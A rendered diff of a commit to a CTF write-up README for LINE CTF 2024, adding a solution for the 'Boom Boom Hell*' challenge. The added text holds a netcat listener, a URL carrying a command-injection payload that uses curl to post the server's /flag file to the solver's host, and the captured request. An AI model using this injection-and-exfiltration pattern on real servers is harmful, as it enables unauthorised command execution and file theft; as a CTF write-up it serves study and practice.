

Before and after one commit to NaoyaOgura0828/ctf-writeup, a Markdown page: line-ctf-2024/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
FIX: Add Boom Boom Hell*

````diff
--- a/line-ctf-2024/README.md
+++ b/line-ctf-2024/README.md
@@ -1,5 +1,40 @@
 # LINE CTF 2024
 Schedule: 2024/03/23 09:00 - 2024/03/24 09:00
+
+<br>
+
+## Boom Boom Hell*
+clientでlistenする
+
+```bash
+nc -l 8000
+```
+
+clientに対してRequestをServerから送信する
+
+```bash
+http://0.0.0.0:3000/chall?url[raw]=$(curl%20${MY_IP_ADDRESS}:${MY_LISTEN_PORT}%20-F=@/flag)
+```
+
+clientにflagが送信される。
+
+```bash
+naoya-ogura@KaliLinux:~/Desktop/ctf-writeup/line-ctf-2024/Boom Boom Hell*/deploy$ nc -l 8000
+POST / HTTP/1.1
+Host: 192.168.1.76:8000
+User-Agent: curl/7.74.0
+Accept: */*
+Content-Length: 198
+Content-Type: multipart/form-data; boundary=------------------------b206e0cf89570dcf
+
+--------------------------b206e0cf89570dcf
+Content-Disposition: form-data; filename="flag"
+Content-Type: application/octet-stream
+
+LINECTF{dummy}
+
+--------------------------b206e0cf89570dcf--
+```
 
 <br>
 
````
